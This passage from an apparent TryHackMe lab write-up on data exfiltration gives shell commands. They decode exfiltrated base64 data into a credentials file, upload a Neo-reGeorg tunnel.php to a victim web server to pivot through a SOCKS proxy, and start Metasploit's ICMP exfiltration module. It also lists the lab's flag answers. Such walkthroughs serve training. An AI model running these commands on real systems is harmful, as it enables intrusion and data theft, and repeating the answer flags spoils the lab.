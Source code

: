 ```shell
#requires correction for URL encoding over HTTP

sudo sed -i 's/ /+/g' /tmp/http.bs64

cat /tmp/http.bs64 | base64 -d | tar xvfz -
#this gives us the creds file
```

```shell
#we can use HTTP Tunneling method
#by given scenario, we upload an HTTP tunnel agent file to a victim webserver uploader.thm.com
#for communicating with app.thm.com

#on attacker machine, we can use a Neo-reGeorg tool
#to establish a communication channel to access internal network devices
cd /opt/Neo-reGeorg

python3 neoreg.py generate -k thm
#generate encrypted client file to upload to victim web server
#key is thm
#we can upload tunnel.php file via uploader machine

#uploading tunnel.php on http://10.10.224.91/uploader using admin as key
#after upload, we can access it on http://10.10.224.91/uploader/files/tunnel.php

#now we can connect to tunneling client
python3 neoreg.py -k thm -u http://10.10.224.91/uploader/files/tunnel.php
#now we can use tunnel connection as proxy binds on 127.0.0.1:1080

#to access flag.thm.com, we can use curl with sock5
curl --socks5 127.0.0.1:1080 http://172.20.0.120:80
#shows that flag is in /flag directory

curl --socks5 127.0.0.1:1080 http://172.20.0.120:80/flag
#gives flag
```

```markdown
1. Check the Apache log file on web.thm.com  and get the flag! - THM{H77P-G37-15-f0un6}

2. When you visit the http://flag.thm.com/flag website through the uploader machine via the HTTP tunneling technique, what is the flag? - THM{H77p_7unn3l1n9_l1k3_l337}
```

## Exfiltration using ICMP

```shell
#icmp data exfiltration
#using metasploit

#in attacker machine
msfconsole

use auxiliary/server/icmp_exfil

set BPF_FILTER icmp and not src 10.10.224.91
#where 10.10.224.91 is the attacker IP

set INTERFACE eth0

run

#now in JumpBox machine, we need to log into icmp.thm.com machine
ssh thm@icmp.thm.com

```